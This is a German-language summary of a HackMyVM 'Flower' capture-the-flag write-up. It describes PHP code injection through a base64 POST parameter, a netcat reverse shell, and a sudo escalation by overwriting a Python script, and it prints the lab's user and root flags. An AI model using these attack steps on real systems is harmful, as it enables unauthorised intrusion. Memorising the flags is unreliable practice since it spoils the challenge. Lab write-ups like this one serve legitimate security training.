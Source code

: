 # Flower - HackMyVM (Easy) - Writeup

![Flower Icon](Flower.png)

Dieses Repository enthält einen zusammengefassten Bericht über die Kompromittierung der HackMyVM-Maschine "Flower" (Schwierigkeitsgrad: Easy).

## Metadaten

*   **Maschine:** Flower (HackMyVM - Easy)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Flower](https://hackmyvm.eu/machines/machine.php?vm=Flower)
*   **Autor des Writeups:** DarkSpirit
*   **Datum:** 2. November 2022
*   **Original Writeup:** [https://alientec1908.github.io/Flower_HackMyVM_Easy/](https://alientec1908.github.io/Flower_HackMyVM_Easy/)

## Zusammenfassung des Angriffspfads

Die initiale Erkundung mit `nmap` offenbarte lediglich einen offenen Port 80, auf dem ein Apache-Webserver lief. Die Web-Enumeration mit `gobuster` fand unter anderem die Datei `index.php` und ein Skript `run.sh`, das auf PHP-Nutzung hindeutete.

Eine Schwachstellenanalyse der `index.php` (impliziert durch Logs, vermutlich mit Burp Suite) ergab eine PHP Code Injection-Schwachstelle. POST-Requests an `index.php` mit einem Parameter namens `petals`, der Base64-kodierten PHP-Code enthielt, wurden vom Server dekodiert und ausgeführt.

Durch Senden einer Base64-kodierten PHP-Reverse-Shell-Payload (`nc -e /bin/bash ...`) im `petals`-Parameter wurde eine Reverse Shell als Benutzer `www-data` mittels `nc` aufgebaut und anschließend stabilisiert (`python pty`).

Die Enumeration als `www-data` führte zum Home-Verzeichnis des Benutzers `rose` und einem Python-Skript `diary.py` im Unterverzeichnis `diary`. Die Prüfung der `sudo`-Rechte (`sudo -l`) zeigte, dass `www-data` dieses Skript (`/home/rose/diary/diary.py`) als Benutzer `rose` ohne Passwort ausführen durfte. Da `www-data` (oder `rose`) Schreibrechte auf das Skript oder dessen Verzeichnis hatte, wurde der Inhalt von `diary.py` mit einem Payload zum Starten einer Bash-Shell (`import os; os.system("/bin/bash")`) überschrieben. Die Ausführung des modifizierten Skripts via `sudo` gewährte eine Shell als Benutzer `rose`.

**Hinweis:** Der Schritt zur Eskalation von `rose` zu `root` ist im bereitgestellten Original-Writeup nicht dokumentiert. Es muss eine weitere Schwachstelle oder Fehlkonfiguration vorhanden gewesen sein.

Schließlich wurden die User-Flag als `rose` und die Root-Flag (nach dem undokumentierten Schritt zu `root`) gelesen.

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `wget`
*   `cat`
*   `wfuzz` (erfolglos)
*   `echo`
*   `base64`
*   Burp Suite / `curl`
*   `nc` (netcat)
*   `python3` (`pty`, `os` modules)
*   `stty`
*   `cd`
*   `ls`
*   `file`
*   `sudo`
*   `vi` (implied)
*   `id`
*   `bash`

## Angriffsschritte (Übersicht)

1.  **Reconnaissance:** Ziel-IP (`arp-scan`), Portscan (`nmap`) -> Nur Port 80 (HTTP, Apache).
2.  **Web Enumeration:** `nikto`, `gobuster` -> findet `/index.php`, `/run.sh`, `/flower.jpg`.
3.  **Vulnerability Assessment:** `wfuzz` (kein Erfolg mit GET). Manuelle Prüfung/Burp (impliziert) -> findet PHP Code Injection in `index.php` über POST-Parameter `petals` (akzeptiert Base64-Payload).
4.  **Vorbereitung:** PHP-Reverse-Shell (`nc -e ...`) Base64-kodieren (`echo ... | base64`).
5.  **Initial Access:** `nc`-Listener starten. Base64-Payload via POST-Request an `index.php` mit Parameter `petals` senden (`curl` / Burp) -> Shell als `www-data`.
6.  **Shell Stabilization:** `python3 -c 'import pty; ...'`, `export TERM=xterm`, `stty raw -echo; fg`.
7.  **Privilege Escalation (`www-data` -> `rose`):** Enumeration -> `/home/rose/diary/diary.py` gefunden. `sudo -l` -> `(rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py`. Skript `/home/rose/diary/diary.py` mit `import os;os.system("/bin/bash")` überschreiben. `sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py` ausführen -> Shell als `rose`.
8.  **User Flag:** `cat /home/rose/user.txt`
9.  **Privilege Escalation (`rose` -> `root`):** *Dieser Schritt fehlt in der Quelldokumentation.* Es muss ein weiterer Exploit angewendet worden sein.
10. **Root Flag:** `cat /root/root.txt` (als Root)

## Flags

*   **User Flag (`/home/rose/user.txt`):** `HMV{R0ses_are_R3d$}`
*   **Root Flag (`/root/root.txt`):** `HMV{R0ses_are_als0_black.}`

---

## Disclaimer

Die hier dargestellten Informationen und Techniken dienen ausschließlich Bildungs- und Forschungszwecken im Bereich der Cybersicherheit. Die beschriebenen Methoden dürfen nur auf Systemen angewendet werden, für die eine ausdrückliche Genehmigung vorliegt (z.B. in CTF-Umgebungen wie HackMyVM, Penetrationstests mit schriftlicher Erlaubnis). Das unbefugte Eindringen in fremde Computersysteme ist illegal und strafbar. Die Autoren übernehmen keine Haftung für missbräuchliche Verwendung der bereitgestellten Informationen. Handeln Sie stets legal und ethisch verantwortlich.

---
